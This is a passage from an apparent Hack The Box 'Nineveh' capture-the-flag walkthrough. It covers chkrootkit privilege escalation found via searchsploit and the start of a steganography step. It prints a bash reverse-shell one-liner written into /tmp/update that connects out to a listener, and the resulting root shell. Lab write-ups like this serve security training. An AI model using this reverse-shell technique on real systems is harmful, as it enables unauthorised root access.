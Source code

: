 There are command `chkrootkit` may have the vulnerable, find public exploit using `searchsploit`.

```
┌──(Hades㉿10.10.14.5)-[2.5:27.0]~
└─$ searchsploit chkrootkit
------------------------------------------------------ ---------------------------------
 Exploit Title                                        |  Path
------------------------------------------------------ ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)  | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation          | linux/local/33899.txt
------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Follow exploit `linux/local/33899.txt`, I create reverse bash shell in file `/tmp/update` and add execute permission.

```
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'" > /tmp/update; chmod +x /tmp/update
```

At the listener, I have root shell.

```
┌──(Hades㉿10.10.14.5)-[2.6:25.5]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.43] 56490
bash: cannot set terminal process group (27001): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# whoami
whoami
root
```

### Steganography and Knockd

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/nineveh)

Follow note `check your serect folder to get in! figure it out! this is your challenge` and check out www folder, I saw `ssl` folder.

```
www-data@nineveh:/var/www$ ls
cd  html  ssl
```

Go to `ssl` and there is an `secure_notes` contain image `nineveh.png`.

```
www-data@nineveh:/var/www/ssl$ ls secure_notes/
index.html  nineveh.png
www-data@nineveh:/var/www/ssl$ ls /home
amrois
```

May admin used some steganography to hidden text and challenge user amrois to figure it out.
